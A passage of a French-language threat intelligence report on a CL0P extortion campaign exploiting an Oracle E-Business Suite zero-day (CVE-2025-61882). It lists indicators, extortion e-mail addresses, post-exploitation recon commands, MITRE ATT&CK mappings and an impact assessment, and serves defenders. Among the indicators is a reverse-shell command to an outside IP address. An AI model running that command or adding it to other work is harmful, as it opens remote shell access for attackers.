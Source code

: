     *   `/help/state/content/destination./navId.1/navvSetId.iHelp/` (sous-chaîne de chemin HTTP filtrée par SAGEWAVE)
    *   `/support/state/content/destination./navId.1/navvSetId.iHelp/` (sous-chaîne de chemin HTTP filtrée par SAGEWAVE)
*   **E-mails d'extorsion**:
    *   support@pubstorm.com
    *   support@pubstorm.net
*   **Commandes de reconnaissance post-exploitation**:
    *   `cat /etc/fstab`
    *   `cat /etc/hosts`
    *   `df -h`
    *   `ip addr`
    *   `cat /proc/net/arp`
    *   `/bin/bash -i >& /dev/tcp/200.107.207.26/53 0>&1`
    *   `arp -a`
    *   `ifconfig`
    *   `netstat -an`
    *   `ping 8.8.8.8 -c 2`
    *   `ps -aux`
*   **Artefacts base de données**: Table `XDO_TEMPLATES_B`, `TEMPLATE_CODE` commençant par `TMP` ou `DEF`, payload stocké dans `LOB_CODE`.

### Tactiques, Techniques et Procédures (TTP) utilisées selon MITRE ATT&CK (si mentionnées)
*   **TA0001** (Initial Access):
    *   **T1190** (Exploit Public-Facing Application): Exploitation de vulnérabilités zero-day (CVE-2025-61882) dans Oracle EBS (`UiServlet`, `SyncServlet`).
*   **TA0002** (Execution):
    *   **T1059.004** (Command and Scripting Interpreter: Unix Shell): Exécution de commandes shell (ex: `bash -i`).
*   **TA0003** (Persistence):
    *   Déploiement d'implants Java (SAGE*, GOLDVEIN.JAVA) pour maintenir l'accès.
*   **TA0005** (Defense Evasion):
    *   **T1027** (Obfuscated Files or Information): Payloads Java encodés en Base64.
*   **TA0007** (Discovery):
    *   **T1083** (File and Directory Discovery): `cat /etc/fstab`, `cat /etc/hosts`.
    *   **T1016** (System Network Configuration Discovery): `ip addr`, `ifconfig`, `netstat -an`, `arp -a`.
    *   **T1049** (System Network Connections Discovery): `netstat -an`.
    *   **T1057** (Process Discovery): `ps -aux`.
*   **TA0009** (Collection):
    *   **T1005** (Data from Local System): Exfiltration de données sensibles des environnements EBS.
*   **TA0010** (Exfiltration):
    *   **T1041** (Exfiltration Over C2 Channel): Communication des payloads Java avec des serveurs C2.
*   **TA0011** (Impact):
    *   **T1486** (Data Encrypted for Impact): Bien que non directement ransomware, la "data theft extortion" est une forme d'impact.

### Analyse de l’impact (sur les secteurs visés, potentiel géographique ou stratégique)
Cette campagne a un impact critique et généralisé, ciblant des organisations utilisant Oracle EBS, une application d'entreprise très répandue. L'exploitation de zero-days permet aux attaquants de pénétrer des systèmes potentiellement bien défendus avant que les correctifs ne soient disponibles. Le vol de données sensibles et la menace d'extorsion peuvent entraîner des pertes financières importantes, des dommages réputationnels et des risques de conformité. Le groupe CL0P a une histoire de campagnes d'exploitation de masse ciblant des systèmes de transfert de fichiers gérés (MFT), et cette attaque contre Oracle EBS marque une continuation de ce modèle opérationnel très efficace.
